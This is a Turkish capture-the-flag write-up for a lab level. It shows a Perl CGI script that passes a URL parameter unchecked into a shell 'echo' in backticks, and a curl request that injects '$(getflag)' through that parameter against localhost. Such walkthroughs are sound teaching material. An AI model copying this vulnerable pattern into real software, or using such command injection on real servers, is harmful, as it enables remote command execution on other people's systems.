

## Level04

Burada elimizde bir Perl scripti var. Bu scripti çalıştırınca sadece şunu görüyoruz:

```bash
Content-type: text/html
```

Fakat kodun içine bakınca olay netleşiyor:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Bu kodda CGI modülü yüklenmiş. Bu modül de web uygulamalarında veri alıp işlemek için kullanılan bir modül. İçinde `param` diye bir fonksiyon var. Bu fonksiyon URL'den gönderilen veriyi alıp işliyor. Mesela bir URL’de `?x=deger` yazarsak, `param("x")` fonksiyonu bu **"deger"** kısmını alıyor ve `$y` değişkenine atıyor. Sonra da `echo $y 2>&1` komutu çalıştırılıyor ve bu `$y` değişkeninin içindeki değer terminale yazdırılıyor. Buradan da anlıyoruz ki eğer `$(getflag)` verirsek bu komut terminalde çalıştırılacak çünkü Perl script'i, verdiğimiz veriyi kontrol etmeden `echo` komutuna gönderiyor. Eğer şu şekilde sömürürsek:

```bash
curl 'localhost:4747/?x=$(getflag)'
```



Flag değerini elde etmiş oluyoruz ve level05'e geçiyoruz.
